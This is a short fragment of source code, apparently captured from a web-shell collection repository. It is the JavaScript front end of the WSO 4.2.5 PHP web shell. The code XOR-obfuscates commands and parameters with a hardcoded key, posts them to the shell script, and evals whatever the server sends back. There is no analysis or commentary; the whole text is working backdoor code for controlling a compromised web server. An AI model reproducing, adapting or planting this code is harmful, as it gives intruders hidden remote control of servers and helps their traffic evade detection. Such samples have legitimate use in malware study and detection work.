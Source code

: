 		function encrypt(str,pwd){if(pwd==null||pwd.length<=0){return null;}str=base64_encode(str);pwd=base64_encode(pwd);var enc_chr='';var enc_str='';var i=0;while(i<str.length){for(var j=0;j<pwd.length;j++){enc_chr=str.charCodeAt(i)^pwd.charCodeAt(j);enc_str+=String.fromCharCode(enc_chr);i++;if(i>=str.length)break;}}return base64_encode(enc_str);}
		function utf8_encode(argString){var string=(argString+'');var utftext='',start,end,stringl=0;start=end=0;stringl=string.length;for(var n=0;n<stringl;n++){var c1=string.charCodeAt(n);var enc=null;if(c1<128){end++;}else if(c1>127&&c1<2048){enc=String.fromCharCode((c1>>6)|192)+String.fromCharCode((c1&63)|128);}else{enc=String.fromCharCode((c1>>12)|224)+String.fromCharCode(((c1>>6)&63)|128)+String.fromCharCode((c1&63)|128);}if(enc!==null){if(end>start){utftext+=string.slice(start,end);}utftext+=enc;start=end=n+1;}}if(end>start){utftext+=string.slice(start,stringl);}return utftext;}
		function base64_encode(data){var b64 = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';var o1,o2,o3,h1,h2,h3,h4,bits,i=0,ac=0,enc='',tmp_arr=[];if (!data){return data;}data=utf8_encode(data+'');do{o1=data.charCodeAt(i++);o2=data.charCodeAt(i++);o3=data.charCodeAt(i++);bits=o1<<16|o2<<8|o3;h1=bits>>18&0x3f;h2=bits>>12&0x3f;h3=bits>>6&0x3f;h4=bits&0x3f;tmp_arr[ac++]=b64.charAt(h1)+b64.charAt(h2)+b64.charAt(h3)+b64.charAt(h4);}while(i<data.length);enc=tmp_arr.join('');switch (data.length%3){case 1:enc=enc.slice(0,-2)+'==';break;case 2:enc=enc.slice(0,-1)+'=';break;}return enc;}
		function set(a,c,p1,p2,p3,charset) {
			if(a!=null)d.mf.a.value=a;else d.mf.a.value=a_;
			if(c!=null)d.mf.c.value=c;else d.mf.c.value=c_;
			if(p1!=null)d.mf.p1.value=p1;else d.mf.p1.value=p1_;
			if(p2!=null)d.mf.p2.value=p2;else d.mf.p2.value=p2_;
			if(p3!=null)d.mf.p3.value=p3;else d.mf.p3.value=p3_;
			d.mf.a.value = encrypt(d.mf.a.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.c.value = encrypt(d.mf.c.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.p1.value = encrypt(d.mf.p1.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.p2.value = encrypt(d.mf.p2.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.p3.value = encrypt(d.mf.p3.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			if(charset!=null)d.mf.charset.value=charset;else d.mf.charset.value=charset_;
		}
		function g(a,c,p1,p2,p3,charset) {
			set(a,c,p1,p2,p3,charset);
			d.mf.submit();
		}
		function a(a,c,p1,p2,p3,charset) {
			set(a,c,p1,p2,p3,charset);
			var params = 'ajax=true';
			for(i=0;i<d.mf.elements.length;i++)
				params += '&'+d.mf.elements[i].name+'='+encodeURIComponent(d.mf.elements[i].value);
			sr('/webshell-master/php/wso/wso-4.2.5.php', params);
		}
		function sr(url, params) {
			if (window.XMLHttpRequest)
				req = new XMLHttpRequest();
			else if (window.ActiveXObject)
				req = new ActiveXObject('Microsoft.XMLHTTP');
	        if (req) {
	            req.onreadystatechange = processReqChange;
	            req.open('POST', url, true);
	            req.setRequestHeader ('Content-Type', 'application/x-www-form-urlencoded');
	            req.send(params);
	        }
		}
		function processReqChange() {
			if( (req.readyState == 4) )
				if(req.status == 200) {
					var reg = new RegExp("(\\d+)([\\S\\s]*)", 'm');
					var arr=reg.exec(req.responseText);
					eval(arr[2].substr(0, arr[1]));
				} else alert('Request error!');
		}
	</script>
	<head><body><div style='position:absolute;background-color:rgba(95, 110, 130, 0.3);width:100%;top:0;left:0;'>